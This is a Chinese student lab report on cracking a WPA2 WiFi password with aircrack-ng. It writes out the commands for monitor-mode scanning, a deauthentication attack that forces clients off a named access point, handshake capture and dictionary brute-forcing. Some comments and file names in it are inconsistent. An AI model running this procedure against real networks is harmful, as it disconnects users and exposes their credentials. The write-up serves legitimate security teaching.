 # WIFI渗透--作业1： WIFI密码破解

## 实验准备

1.虚拟机 kali Linux

2.有监听功能的网卡 RT3070

3.aircrack-ng kali内置的无线攻击软件

## 实验过程

#### 1.虚拟机安装无线网卡

- 分配无线网卡给linux（主要网卡现在不能连接WiFi）

  ![分配网卡](img/分配网卡.png)

  ![查看网卡2](img/查看网卡2.png)

- 开启网卡监听模式，在监听模式下，无线网卡的名称已经变为了wlan0mon

  ![开启监听1](img/开启监听1.png)

  ![开启监听2](img/开启监听2.png)

- 重启一下网卡

  ```bash
   sudo ifconfig wlan0mon down
   sudo iwconfig wlan0mon mode monitor
   sudo ifconfig wlan0mon up 
  ```

  ![重启网卡](img/重启网卡.png)

#### 2.探测

- 扫描周围无线网络

  什么也没找到

- ```bash
  sudo airodump-ng wlan0mon
  ```

  ![扫描wifi](img/扫描wifi.png)

- 重新选择USB3.0(XHCI)控制器,重新探测，成功。

  ![更改usb设置](img/更改usb设置.png)

- 观察到**ESSID**是周围wifi的名字，最左侧的**BSSID**是这些wifi对应的mac地址。**ENC**是加密方式。**CH**是工作频道。

  可以看到基本都是WPA2的，很少有WPA和WEP,因为这两个的安全性都较WPA2差。

  ![探测wifi](img/探测wifi.png)

- 接下来要破解图中的FAST_1041BA。可以看到它的mac地址是1C:FA:68:10:41:BA，它的工作频道是1。

#### 3.利用airodump-ng进行抓包

- 使用airodump-ng这个工具进行抓包，可以看到有三个连接（客户端是电脑、手机以及ipad）。

  ```bash
  #--bssid 是路由器的mac地址
  #-w 是写入到文件longas中
  #-c 11 是频道11
  #--ivs 是只抓取可用于破解的IVS数据报文
  sudo airodump-ng –w longas -c 1 --bssid 1C:FA:68:10:41:BA --ivs wlan0mon
  ```

  ![抓包](img/抓包.png)

#### 4.利用crunch生成字典进行攻击

- 利用以下命令洪水攻击，设置攻击15次。

- 为了获得破解所需的WPA2握手验证的整个完整数据包，发送一种称之为“Deauth”的数据包来将已经连接至无线路由器的合法无线客户端强制断开，此时，客户端就会自动重新连接无线路由器，这样就有机会捕获到包含WPA2握手验证的完整数据包了。

  ```bash
  #新开一个shell
  #-0 采用deauth攻击模式，一直不断的攻击，类似于拒绝服务攻击，占满你的握手请求通道，其他的连接进不来，也可以让当前所有连接断开
  #-a 后跟路由器的mac地址
  #-c 后跟客户端的mac地址
    sudo aireplay-ng -0 15 –a 1C:FA:68:10:41:BA  -c BE:A9:57:76:88:26 wlan0mon
  
  ```

  ![洪水攻击](img/洪水攻击.png)

- 停掉洪水攻击，连接一下模拟别人连接，出现WPA handshake就表示成功。

  ![出现WPA handshake](img/出现WPA handshake.png)

#### 5.利用aircrack-ng进行爆破

- 抓到握手包那么就可以用密码字典进行爆破了(wifi-1.cap)

- ls查看抓包名称---longas-01.ivs

  ![查看包名字](img/查看包名字.png)

- 准备一个字典爆破---code.txt(为了节省时间字典中直接加入密码)

  ```bash
  sudo aircrack-ng -w code.txt longas-04.ivs
  ```

  ![爆破成功](img/爆破成功.png)



# 实验中遇到的问题

 1.扫描周围WiFi什么也没找到

**解决方法：更改usb设置为USB 3.0 (xHCI)控制器**

# 参考

[使用Aircrack-ng进行wifi渗透](https://www.jianshu.com/p/fd16236057df)

# 总结

**WLAN的设备**
WLAN主要由接入点（Access Point，AP）和客户端（Station，STA）组成
**接入点AP**

- 类似于有线局域网中的交换器
- 负责管理客户端，协调无线与有线网络之间的通信
  **客户端STA**
- 安装有无线网卡的计算机

**WEP（有线等效保密）认证过程：**

1. 客户端向接入点发送认证请求
2. 接入点发回一段明文
3. 客户端利用事先共享的密钥加密这段明文（对称），并再次发出认证请求
4. 接入点对数据包进行解密，比较明文，来决定是否接受请求